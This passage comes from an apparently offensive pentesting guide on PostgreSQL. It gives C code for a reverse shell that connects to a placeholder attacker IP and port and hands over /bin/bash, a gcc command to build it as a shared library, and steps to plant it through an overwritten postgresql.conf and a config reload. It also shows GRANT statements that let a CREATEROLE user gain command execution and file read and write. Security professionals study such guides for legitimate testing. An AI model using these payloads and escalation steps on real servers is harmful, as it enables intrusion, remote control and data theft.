    ```c

      int port = REVSHELL_PORT;
      struct sockaddr_in revsockaddr;

      int sockt = socket(AF_INET, SOCK_STREAM, 0);
      revsockaddr.sin_family = AF_INET;
      revsockaddr.sin_port = htons(port);
      revsockaddr.sin_addr.s_addr = inet_addr("REVSHELL_IP");

      connect(sockt, (struct sockaddr *) &revsockaddr,
      sizeof(revsockaddr));
      dup2(sockt, 0);
      dup2(sockt, 1);
      dup2(sockt, 2);

      char * const argv[] = {"/bin/bash", NULL};
      execve("/bin/bash", argv, NULL);
   }
   ```

   Compiling the code:

   ```bash
    gcc -I$(pg_config --includedir-server) -shared -fPIC -nostartfiles -o payload.so payload.c
   ```

6. Upload the malicious `postgresql.conf`, created in steps 2-3, and overwrite the original one
7. Upload the `payload.so` from step 5 to the `/tmp` directory
8. Reload the server configuration by restarting the server or invoking the `SELECT pg_reload_conf()` query
9. At the next DB connection, you will receive the reverse shell connection.

## **Postgres Privesc**

### CREATEROLE Privesc

#### **Grant**

According to the [**docs**](https://www.postgresql.org/docs/13/sql-grant.html): _Roles having **`CREATEROLE`** privilege can **grant or revoke membership in any role** that is **not** a **superuser**._

So, if you have **`CREATEROLE`** permission you could grant yourself access to other **roles** (that aren't superuser) that can give you the option to read & write files and execute commands:

```sql
# Access to execute commands
GRANT pg_execute_server_program TO username;
# Access to read files
GRANT pg_read_server_files TO username;
# Access to write files
GRANT pg_write_server_files TO username;
```
